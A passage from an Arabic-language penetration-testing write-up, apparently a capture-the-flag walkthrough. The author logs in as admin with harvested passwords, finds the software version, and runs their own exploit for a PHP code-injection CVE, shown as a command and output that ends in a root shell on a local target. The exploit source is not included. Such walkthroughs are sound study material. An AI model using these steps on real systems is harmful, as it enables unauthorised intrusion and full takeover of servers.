
إذا جربنا اسم المستخدم admin مع وحدة من كلمات المرور اللي حصلناها راح نقدر ندخل على الداش بورد

إذا قعدنا نبحث راح نعدي على خانة `Monitor` نقدر من خلالها نعرف الإصدار:

إذا بحثنا في قوقل عن هذا الإصدار راح نحصل CVE برقم 46818. أنا كتبت سكربت يُأتمت هذه الثغرة (الثغرة عبارة عن حقن كود php) [شيك عليها هنا](https://vulnerk0.github.io/posts/CVE-46818/):
```bash
python exploit.py 
[!] Usage: python exploit.py <URL> <USERNAME> <PASSWORD>

proxychains -q python exploit.py http://127.0.0.1:8080 admin <REDACTED>

[!] Checking connection to the target: http://127.0.0.1:8080/
[+] Target is reachable, logging in with the provided creds.
[+] Logged in using the provided credentials!
[!] Grabbed the csrf key and id
[!] Launching shell!
[#] The shell has been uploaded, prompting you now...

Shell# whoami
whoami
root
```
